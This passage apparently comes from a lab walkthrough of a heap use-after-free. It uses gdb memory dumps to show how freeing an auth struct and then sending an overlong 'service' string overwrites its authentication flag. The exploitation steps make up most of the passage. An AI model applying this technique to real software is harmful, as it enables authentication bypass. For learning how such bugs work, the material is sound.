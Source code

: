 ```
(gdb) print *auth
$4 = {
  name = "AAAA\n\000\000\000\000\000\000\000\361\017", '\000' <repeats 17 times>, auth = 0}
```
 
  - we will call `auth BBBB` now

:grey_question: result :grey_question:
```
0x804c000:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804c010:      0x00000000      0x00000011      0x42424242      0x0000000a
0x804c020:      0x00000000      0x00000fe1      0x00000000      0x00000000
```
 - check `*auth` 

```
(gdb) print *auth
$6 = {
  name = "BBBB\n\000\000\000\000\000\000\000\341\017", '\000' <repeats 17 times>, auth = 0}
```

 - when we call `login` in this situration, `auth->auth` checkpoint will fail because its still equal to zero
 - now we will free this by calling `reset`

:grey_question: result :grey_question:
```
0x804c000:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804c010:      0x00000000      0x00000011      0x00000000      0x0000000a
0x804c020:      0x00000000      0x00000fe1      0x00000000      0x00000000
```
 - we already free'd `auth`
 - check 	`*auth`	

```
(gdb) print *auth
$8 = {
  name = "\000\000\000\000\n\000\000\000\000\000\000\000\341\017", '\000' <repeats 17 times>, auth = 0}
```
 - still pointing to free'd chunk , so we need to call service with more than 16 bytes to overwrite `auth->auth` 
 - command `service BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB` 

:grey_question: result :grey_question:

```
0x804c000:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804c010:      0x00000000      0x00000011      0x00000000      0x0000000a
0x804c020:      0x00000000      0x00000029      0x42424220      0x42424242
0x804c030:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c040:      0x42424242      0x00000a42      0x00000000      0x00000fb9
```
 - `auth->auth`h is successfully overwritten by `42424242`
 - and `auth` is still pointing to `0x804c018`  
 - check what we have done in `*auth->auth` now
